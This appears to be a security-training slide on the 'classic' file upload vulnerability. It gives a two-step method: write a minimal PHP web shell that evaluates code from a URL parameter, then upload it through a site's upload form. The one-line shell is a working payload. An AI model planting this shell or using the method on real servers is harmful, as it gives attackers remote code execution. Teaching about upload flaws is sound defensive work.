

'Classic' upload vulnerability
Step 1: Create a minimal shell in the server side language
<?php $_GET['c'] ? eval($_GET['c']) : phpinfo();
Step 2: Upload it using the upload form provided